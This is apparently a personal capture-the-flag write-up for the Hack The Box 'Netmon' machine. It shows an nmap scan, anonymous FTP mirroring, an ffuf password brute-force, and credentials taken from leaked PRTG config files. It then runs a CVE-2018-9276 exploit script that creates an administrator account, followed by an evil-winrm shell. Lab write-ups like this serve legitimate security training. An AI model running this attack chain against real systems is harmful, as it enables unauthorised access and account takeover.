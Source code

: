 ```yaml
---
tags:
  - hack
  - windows
---
```

# HTB: [Netmon](https://app.hackthebox.com/machines/Netmon)

## Services

### TCP

`nmap` TCP scan:

```console
# Nmap 7.94SVN scan initiated Mon Sep  9 10:03:30 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-netmon.htb.txt netmon.htb
Nmap scan report for netmon.htb (10.10.10.152)
Host is up, received user-set (0.099s latency).
rDNS record for 10.10.10.152: t
Not shown: 49819 closed tcp ports (reset), 15703 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON          VERSION
21/tcp    open  ftp          syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http         syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  unknown      syn-ack ttl 127
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-09-09T16:04:49
|_  start_date: 2024-09-08T18:36:25

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  9 10:05:46 2024 -- 1 IP address (1 host up) scanned in 136.06 seconds
```

### 21/ftp

Anonymous FTP is permitted. A windows filesystem is exposed there. Interestingly there's a `user.txt` flag readable in `\Users\Public\Desktop` but it doesn't work.

MIrrored via: `wget --mirror 'ftp://anonymous:hax@netmon.htb'`

#### 80/tcp-http

```console
$ whatweb -a3 http://netmon.htb/
http://netmon.htb/ [302 Found] Country[RESERVED][ZZ], HTTPServer[PRTG/18.1.37.13946], IP[10.10.10.152], PRTG-Network-Monitor[18.1.37.13946,PRTG], RedirectLocation[/index.htm], UncommonHeaders[x-content-type-options], X-XSS-Protection[1; mode=block]
ERROR Opening: http://netmon.htb/index.htm - incorrect header check
```

```http
$ curl -I http://netmon.htb/index.htm
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 33654
Date: Mon, 09 Sep 2024 16:05:29 GMT
Expires: 0
Cache-Control: no-cache
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Server: PRTG/18.1.37.13946
```

![](_/htb-netmon-20240909-1.png)

```console
$ ffuf -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -u http://netmon.htb/public/checklogin.htm -X POST -d 'username=prtgadmin' -d 'password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -ac
...
:: Progress: [10000/10000] :: Job [1/1] :: 29 req/sec :: Duration: [0:05:51] :: Errors: 9 ::
```

## Remote Code Execution

Old credentials leaked via Anonymous FTP in an old config file: `Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.old`

```xml
...
<name>
  PRTG System Administrator
</name>
<ownerid>
  100
</ownerid>
<password>
  <flags>
    <encrypted/>
  </flags>
  <cell col="0" crypt="PRTG">
    JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
  </cell>
  <cell col="1" crypt="PRTG">
    OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
  </cell>
</password>
```

And another, from a `.bak` copy:

```xml
<name>
                  PRTG System Administrator
                </name>
                <ownerid>
                  100
                </ownerid>
                <password>
                  <flags>
                    <encrypted/>
                  </flags>
                  <cell col="0" crypt="PRTG">
                    PDWXMOPZT43U2GKGR3YCBILXDMLAUZVBN27KGBOPKXRQ====
                  </cell>
                  <cell col="1" crypt="PRTG">
                    M24VKFRECBEGN3ZQNGSET723GFIPVHYX
                  </cell>
                </password>
```

I tried [prtg_string_decryptor.py](https://github.com/yobabyte/decryptocollection/tree/main) on both sets of encrypted credentails, with bad results:

```console
$ ./prtg_string_decryptor.py aes --guid '{221B25D6-9282-418B-8364-F59561032EE3}' 'JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======'
-305569838

$ ./prtg_string_decryptor.py aes --guid '{221B25D6-9282-418B-8364-F59561032EE3}' 'PDWXMOPZT43U2GKGR3YCBILXDMLAUZVBN27KGBOPKXRQ===='
-1840798137
```

From `/Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.old.bak`:

```text
...
<dbpassword>
  <!-- User: prtgadmin -->
  PrTg@dmin2018
</dbpassword>
...
```

That didn't work but `PrTg@dmin2019` did:

![](_/htb-netmon-20240909-2.png)

Now I can try [CVE-2018-9276](https://github.com/A1vinSmith/CVE-2018-9276):

```console
$ ./46527.sh -u http://netmon.htb -c '_ga=GA1.2.1686798169.1725897817; _gid=GA1.2.1816280327.1725897817; OCTOPUS1813713946=ezc2QjMxQ0RELUI2MzUtNDI5NS04QTIxLTk1NjA2NDFEMkRFOH0%3D'
...
 [*] file created
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st'
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

```powershell
$ evil-winrm -i netmon.htb -u pentest -p 'P3nT3st!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\pentest\Documents> whoami
netmon\pentest
```

## Privilege Escalation

Because the RCE exploit above returns a privileged user, no further privilege escalation is necessary.

## Post-exploitation

Life after `root`.

## Open Questions

## Credits

